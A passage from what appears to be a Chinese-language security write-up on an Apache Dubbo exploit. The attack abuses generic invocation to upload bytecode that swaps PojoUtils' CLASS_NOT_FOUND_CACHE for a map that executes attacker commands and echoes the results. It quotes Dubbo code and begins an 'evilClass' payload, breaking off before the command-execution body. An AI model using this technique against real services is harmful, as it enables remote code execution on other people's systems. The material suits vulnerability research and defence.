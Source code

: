 可以看到，PojoUtils是存在很多static final修饰的对象的。我选择的是CLASS\_NOT\_FOUND\_CACHE 对象。当客户端发起泛化调用时，在获取调用类的属性的过程中，如果传入的对象是map，则会取其class属性，然后调用CLASS\_NOT\_FOUND\_CACHE的containsKey方法判断这个类是否在之前的调用已经判断过是不存在的了。如果返回true就直接结束当前的判断逻辑。

```java
else if (pojo instanceof Map && type != null) {
  Object className = ((Map)pojo).get("class");
  if (className instanceof String) {
      SerializeClassChecker.getInstance().validateClass((String)className);
      if (!CLASS_NOT_FOUND_CACHE.containsKey(className)) {
          try {
              type = ClassUtils.forName((String)className);
          } catch (ClassNotFoundException var22) {
              CLASS_NOT_FOUND_CACHE.put((String)className, NOT_FOUND_VALUE);
          }
      }
  }
```

因此对于攻击来说，分成下面两步：

1.  发起一连串泛化调用，从而上传恶意的字节码，创建一个ConcurrentMap子类对象替换掉这个CLASS\_NOT\_FOUND\_CACHE对象。这个子类对象的containsKey方法会将className作为命令进行执行，将执行结果作为`org.apache.dubbo.rpc.RpcException`类的message，抛出异常。
2.  发起一个正常的泛化调用，其参数传入一个map，map包含一个`class`：`命令`的键值对。

核心代码如下，恶意类继承`AbstractTranslet` 满足字节码的要求，同时实现ConcurrentMap 接口，满足CLASS\_NOT\_FOUND\_CACHE的要求。程序在其默认构造方法中调用addClass方法，利用反射替换程序的CLASS\_NOT\_FOUND\_CACHE对象，同时把这个类的containsKey方法替换为恶意方法，针对特定的请求执行命令，执行完成后获取结果抛出异常，在代码中我抛出的是IllegalArgumentException，它会在GenericFilter中被捕获，不做任何修改的情况下拼接进RpcException，和直接抛出RpcException效果一样。在代码中我新建了一个Hashmap用来处理其它override的方法，防止替换对象导致Dubbo正常功能失效。

```java

import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;
import org.apache.dubbo.common.utils.PojoUtils;


import java.io.BufferedReader;
import java.io.InputStream;
import java.io.InputStreamReader;
import java.lang.reflect.Field;
import java.lang.reflect.Modifier;
import java.nio.charset.Charset;
import java.util.Collection;
import java.util.HashMap;
import java.util.Map;
import java.util.Set;
import java.util.concurrent.ConcurrentMap;
import java.util.function.BiConsumer;
import java.util.function.BiFunction;
import java.util.function.Function;

public class evilClass extends AbstractTranslet  implements ConcurrentMap {
    private HashMap m = new HashMap();
    public static final String CMD_PREFIX = "CMD:";
    public static final String CMD_SPLIT = "@cmdEcho@";

    @Override
    public boolean containsKey(Object key) {
        StringBuffer b = new StringBuffer();
        if( key.toString().startsWith(CMD_PREFIX)) {
            b.append(CMD_SPLIT);
            try{
```